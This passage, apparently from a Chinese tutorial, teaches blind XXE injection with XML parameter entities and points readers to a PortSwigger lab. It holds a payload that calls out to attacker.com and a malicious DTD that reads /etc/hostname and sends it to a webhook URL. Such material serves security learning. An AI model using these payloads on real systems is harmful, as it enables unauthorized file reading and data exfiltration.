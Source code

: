 但是，burp collaborator 客户端仅在**burp 专业版中**可用，并且可以通过 burp-> burp collaborator client 进行访问。

您可能会发现常规实体被阻止的例子，这可能是由于某些输入检查或者强化了 XML 解析器级别所导致的。在这种情况下，您可以使用 XML 参数实体。

## XML 参数实体

这些是特殊类型的 XML 实体，只能在 DTD 中引用。

### 声明

```plain
<!ENTITY % paramentity "my test value">
```

### 引用

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

要检验的您的学习状态，可以遵循[portswigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)实验

在平台上测试时，只要简单将其表示为错误就足够了，但是如果敏感数据能够被提取，则你可以大大地提高这个漏洞的影响力。

## 让我们看看如何提取数据

创建恶意 DTD

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/?x=%file;'>">
%eval;
%exfil;
```

这是存储在某处的恶意 DTD 文件。例如，portwigger 的漏洞利用服务器

在对易受攻击的应用程序的请求中，必须提供到存储漏洞利用的服务器的 URL。

[![](assets/1698897039-38593fe01d59bb0ab2277bebc26842d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135021-1dd41d72-aa41-1.png)
